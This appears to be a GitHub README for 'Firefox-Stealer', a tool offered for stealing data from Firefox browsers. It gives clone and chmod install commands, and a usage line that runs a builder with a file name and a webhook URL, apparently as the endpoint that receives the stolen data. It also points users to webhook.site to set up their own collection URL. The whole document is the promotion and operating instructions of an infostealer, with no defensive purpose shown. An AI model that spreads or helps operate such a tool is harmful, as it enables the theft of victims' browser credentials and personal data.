 <h1 align="center">
[ Nahid Alam ]
</h1>

<h2 align="center">
Firefox-Stealer
</h2>
<h2 align="center">
<a href="https://github.com/illusiondemon"><img title="Bangladesh" src="https://img.shields.io/badge/MADE%20IN-BANGLADESH-green?colorA=%23ff0000&colorB=%23017e40&style=flat"></a> 
</p><br>

<h2 align="center">
How To Install
</h2>

`
git clone https://github.com/illusiondemon/firefox-stealer.git
`

`
cd firefox-stealer
`

`
chmod +x *
`

<h5 align="center">How To Use<h5>

`
./builder filename https://webhook.com/code
`
<h5 align="center">Create your own webhook url<h5>
 `
https://webhook.site
 
 <h5 align="center">Screen Shot<h5>
<p align="center">
  <img alt="Layout" src="https://i.top4top.io/p_2358fs3550.jpg">
</p>

